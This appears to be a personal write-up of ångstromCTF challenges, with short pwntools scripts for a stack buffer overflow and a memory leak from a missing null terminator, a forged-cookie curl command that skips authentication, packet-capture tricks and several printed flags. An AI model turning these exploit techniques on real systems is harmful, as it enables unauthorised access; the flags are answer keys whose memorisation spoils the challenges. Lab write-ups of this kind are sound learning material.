


I actually had a team for this one; decided I'd learn more and of course be more successful with others so I acquired some help. These are the challenges I solved (organized from most interesting to least).

## logloglog
I didn't actually solve this during competition-time, but I thought it was really interesting nonetheless. It's a variation on the discrete log problem (so I tried and failed to bruteforce it using Pohlig-Hellman and baby-step giant-step). Turns out that doing discrete log mod 2^1024 (which was the scaling factor of the Proth prime) was the only thing necessary to bruteforce (as the answer is retained in the last 1024 bits without having to discrete log mod q (which is what I was doing), a large prime).

[Official writeup here](https://hackmd.io/@lamchcl/rJgPUtgI5#log-log-log)

## wah
I put this in "interesting" because this was my first foray into pwn. Quite fun. Procedure: find offset of variable you can overflow from the instruction pointer, then overflow and overwrite the address it's pointing to (as that's what will execute).
```python
from pwn import *

target = remote('challs.actf.co', 31224)
#target = process('./wah')
payload = b"0"*0x28
payload += p64(0x401236)

target.sendline(payload)
```
## whatsmyname
Turns out if you don't properly null-terminate a user-supplied  string, you can read arbitrary memory (in this case, the a random variable).
```python
target = remote("challs.actf.co", 31223)
target.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
line = target.recvline()
#print(line)
#print(target.recvline())
target.sendline(line[-49:][:-1])
#print(line[-49:][:-1])
print(target.recvline())
target.close()
```

# Simpler Challenges
## Amogus
```bash
diff -q --from-file actf\{look1ng_f0r_answers_in_the_p0uring_r4in_*; echo $?

Files actf{look1ng_f0r_answers_in_the_p0uring_r4in_001a5e03f1d9}.txt
and actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt differ
```
flag = `actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt`

## Crumbs
There may have been an easier way to do this but php is annoying and 1000 requests took maybe 2 minutes so ...
```python
import requests

apend = ""
for x in range(1001):
    resp = requests.get("https://crumbs.web.actf.co/"+apend).text
    print(resp)
    apend = resp.split("to ")[-1]
```

## Shark 1
```
strings shark1.pcapng | grep "actf"
Emactf{wireshark_doo_doo_doo_doo_doo_doo}
```
## Shark 2
1. "Ooh look an (unencrypted) conversation". 
2. 'I am sending the file now' says `10.0.2.15` ... oh come on this is too easy
3. A TCP stream from that address can be found immediately after 
4. Me: \*Follows stream\*
5. There's an image header: it's a JFIF (aka jpeg) file
5. Export as `shark.jpeg` (Wireshark conveniently has this function available)
6. Profit (the image had the flag)


## Auth Skip
I love default bash tools (and Linux as a whole but that's not largely relevant here): `curl -v --cookie "user=admin" https://auth-skip.web.actf.co/`

## The Flash
SimpleScreenRecorder + VLC ('e' to step forward a frame)



## Caesar and Desister
One word: [dcode.fr](https://www.dcode.fr/caesar-cipher)




